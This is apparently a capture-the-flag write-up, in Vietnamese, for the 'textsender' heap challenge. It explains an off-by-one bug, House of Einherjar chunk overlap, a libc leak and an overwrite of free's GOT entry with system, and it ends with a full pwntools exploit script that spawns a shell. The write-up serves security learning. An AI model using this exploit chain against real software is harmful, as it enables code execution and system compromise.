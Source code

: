 # textsender

## Bugs

- Ta có bug off-by-one của hàm scanf khiến mình liên tưởng kĩ thuật poison null byte, tuy nhiên các chunk được malloc cố định là 0x20, 0x80 0x200 nên có vẻ không được
- Cuối cùng mình được hint là kĩ thuật House of Enherjar. Kĩ thuật này sử dụng off-by-one để tắt bit inuse và tiến hành fake chunk -> overlap chunk

## Khai thác

```python
def add(idx, payload):
    sla(b"> ", b"2")
    sla(b": ", idx)
    sla(b": ", payload)


def send():
    sla(b"> ", b"5")


def edit(idx):
    sla(b"> ", b"3")
    sla(b": ", idx)

def setname(payload):
    sla(b"> ", b"1")
    sla(b": ", payload)

def fill_bin():
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'/bin/sh')
    add("2", b'bbbb')
    add("2", b'bbbb')
```

### Setup chunk

- Trước hết, ta cần free chunk được merge trước khi free chunk fake, tuy nhiên chunk merge có địa chỉ > chunk fake. Do vậy ta cần làm sao chunk merge được malloc trước chunk fake, khi free chunk merge sẽ được free trước.
- Để được như vậy, ta cần một số các bước xếp chunk.
- Ta sẽ tận dụng việc getline trong hàm edit tạo một chunk 0x80 và free nó.
- Ta chỉ cần chú ý chunk 0x80, dưới đây chỉ là các chunk 0x80

```python
fill_bin()
setname(b'a')
send()

fill_bin()
add("wan",b"b")
edit("6"*0x75)
send()

fill_bin()
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
fill_bin()
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
```

- Khi này trong tcache và fastbin như sau
  ![Alt text](/textsender/bin/image-3.png)
- Khi này chunk 9 sẽ là chunk ow bit inuse chunk 0x200 ở dưới
  ![Alt text](/textsender/bin/image-4.png)
- và chunk 6 sẽ là fake chunk
  > Ở đây có lưu ý là cả 2 chunk merge và fake không được ở tcache

```python
presize = 0x870
fill_bin()
add("1",b"b")
add(b"a" * 0x70 + p64(presize),b"b")
add("3",b"b")
add(p64(0) + p64(presize) + p64(exe.sym.sender-0x18) + p64(exe.sym.sender - 0x10),b"b")
send()
```

- Khi này ta đã overlap chunk
  ![Alt text](/textsender/bin/image-5.png)

### Leak libc
- Ta có thể điều khiển 2 con trỏ của chunk 0x20 để leak libc
```python
fill_bin()
add("wan",b"b")
add("\0",b"b")
add("\0",b"b")
add(b'9',b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(0x404028))
sla(b'> ', b'4')
p.recvlines(7)
p.recvuntil(b'6) ')
libc.address = u64(p.recvuntil(b':', drop=True) + b'\0\0') - libc.sym.puts
info(hex(libc.address))
```
### Ow free
```python
edit(b'9')
payload = b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(exe.got.free)
sla(b": ", payload)
edit(p64(libc.address + 0x77ec0))
sla(b': ', p64(libc.sym.system))
send()
```
### Kết quả
![Alt text](/textsender/bin/image-6.png)
```python
#!/usr/bin/python3

from pwn import *

exe = ELF("textsender_patched", checksec=False)
libc = ELF("./libc.so.6")
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(
            p,
            gdbscript="""

                # b* 0x00000000004016b5
                c
                """,
        )
        input()


info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
    p = remote("chals.sekai.team", 4000)
else:
    p = process(exe.path)

GDB()


def add(idx, payload):
    sla(b"> ", b"2")
    sla(b": ", idx)
    sla(b": ", payload)


def send():
    sla(b"> ", b"5")


def edit(idx):
    sla(b"> ", b"3")
    sla(b": ", idx)

def setname(payload):
    sla(b"> ", b"1")
    sla(b": ", payload)
    
def fill_bin():
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'/bin/sh')
    add("2", b'bbbb')
    add("2", b'bbbb')
fill_bin()
setname(b'a')
send()  

fill_bin()
add("wan",b"b")
edit("6"*0x75)
send()

fill_bin()
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
fill_bin()
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()

presize = 0x870
fill_bin()
add("1",b"b")
add(b"a" * 0x70 + p64(presize),b"b")
add("3",b"b")
add(p64(0) + p64(presize) + p64(exe.sym.sender-0x18) + p64(exe.sym.sender - 0x10),b"b")
send()
fill_bin()
add("wan",b"b")
add("\0",b"b")
add("\0",b"b")
add(b'9',b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(0x404028))
sla(b'> ', b'4')
p.recvlines(7)
p.recvuntil(b'6) ')
libc.address = u64(p.recvuntil(b':', drop=True) + b'\0\0') - libc.sym.puts
info(hex(libc.address))
edit(b'9')
payload = b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(exe.got.free)
sla(b": ", payload)
edit(p64(libc.address + 0x77ec0))
sla(b': ', p64(libc.sym.system))
send()
p.interactive()

```